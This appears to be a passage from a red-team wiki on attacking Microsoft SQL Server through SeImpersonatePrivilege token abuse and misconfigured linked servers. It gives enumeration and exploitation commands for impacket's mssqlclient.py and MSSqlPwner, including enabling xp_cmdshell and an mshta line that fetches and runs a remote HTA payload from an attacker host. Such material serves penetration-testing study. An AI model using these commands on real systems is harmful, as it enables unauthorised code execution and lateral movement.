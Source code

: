### Local Privilege Escalation

The user running MSSQL server will have enabled the privilege token **SeImpersonatePrivilege.**\
You probably will be able to **escalate to Administrator or NT AUTHORITY\SYSTEM** following this page:

{% content-ref url="../../redteam/privilege-escalation/windows/abusing-tokens.md" %}
[abusing-tokens.md](../../redteam/privilege-escalation/windows/abusing-tokens.md)
{% endcontent-ref %}

### Linked SQL Servers Abuse

[Linked servers](https://learn.microsoft.com/en-us/sql/relational-databases/linked-servers/create-linked-servers-sql-server-database-engine?view=sql-server-ver16) are typically configured to enable the database engine to execute a Transact-SQL statement that includes tables in another instance of SQL Server. From an attacking perspective, misconfigured linked servers can enable privilege escalation, lateral movement, and unauthorized data access by pivoting through trusted database connections.

{% tabs %}
{% tab title="Ennumerate" %}
From an UNIX-Like machine, we can enumerate Linked SQL Servers using [MssqlClient.py](https://github.com/fortra/impacket/blob/master/examples/mssqlclient.py) or [MSSqlPwner](https://github.com/ScorpionesLabs/MSSqlPwner).

```bash
# mssqlclient.py
mssqlclient.py -port 1433 <DOMAIN>/<USERNAME>:<PASSWORD>@<TARGET>
SQL (dbo@master)> enum_links

# MSSqlPwner
mssqlpwner <DOMAIN>/<USER>:<PASSWORD>@<TARGET> -windows-auth get-link-server-list
```

{% hint style="info" %}
We can also enumerate Linked Servers using the followins SQL query on a MSSQL instance:

```sql
EXEC sp_linkedservers;
```
{% endhint %}
{% endtab %}

{% tab title="Exploit" %}
### Remote Execution

From an UNIX-Like machine, we can execute code on a Linked SQL Servers using [MssqlClient.py](https://github.com/fortra/impacket/blob/master/examples/mssqlclient.py) or [MSSqlPwner](https://github.com/ScorpionesLabs/MSSqlPwner).&#x20;

{% hint style="danger" %}
The SQL login on the Linked SQL Server must be `sysadmin`
{% endhint %}

```bash
# mssqlclient.py
mssqlclient.py -port 1433 <DOMAIN>/<USERNAME>:<PASSWORD>@<TARGET>
SQL (dbo@master)> use_link <LINKED_SRV_NAME>
SQL >APPSRV01 (sa  dbo@master)> enable_xp_cmdshell
SQL >APPSRV01 (sa  dbo@master)> xp_cmdshell whoami

# MSSqlPwner
## Execution using using stored procedures
mssqlpwner <DOMAIN>/<USER>:<PASSWORD>@<TARGET> -windows-auth exec whoami -link-name <LINKED_SRV_NAME>
## Executing the hostname command using stored procedures on the linked SRV01 server with sp_oacreate method
mssqlpwner <DOMAIN>/<USER>:<PASSWORD>@<TARGET> -windows-auth -link-name <LINKED_SRV_NAME> exec "cmd /c mshta http://192.168.45.250/malicious.hta" -command-execution-method sp_oacreate
```